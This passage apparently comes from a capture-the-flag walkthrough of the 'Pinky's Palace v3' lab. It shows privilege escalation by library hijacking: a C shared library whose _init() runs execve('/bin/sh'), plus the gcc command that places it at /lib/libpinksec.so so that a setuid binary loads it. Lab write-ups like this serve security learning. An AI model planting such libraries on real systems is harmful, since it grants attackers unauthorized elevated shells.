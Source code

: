 Armed with this knowledge, I can compile a bogus `/lib/libpinksec.so` to gain `pinksecmanagement` privilege like this.

First, the bogus code.

<div class="filename"><span>libpinksec.c</span></div>

```c
#include <unistd.h>

void _init() {
  execve("/bin/sh", NULL, NULL);
}
```

![ed872e4a.png](/assets/images/posts/pinkys-palace-v3-walkthrough/ed872e4a.png)

Compile the code as a shared library and save it to `/lib/libpinksec.so`.

```
$ gcc -fPIC -shared -nostartfiles -o /lib/libpinksec.so /tmp/libpinksec.c
```

Let's execute `/home/pinksec/bin/pinksecd`.

![2bb999bd.png](/assets/images/posts/pinkys-palace-v3-walkthrough/2bb999bd.png)

My effective UID is that of `pinksecmanagement`. Let's repeat the same SSH trick, this time for `pinksecmanagement`.

![08fa4456.png](/assets/images/posts/pinkys-palace-v3-walkthrough/08fa4456.png)
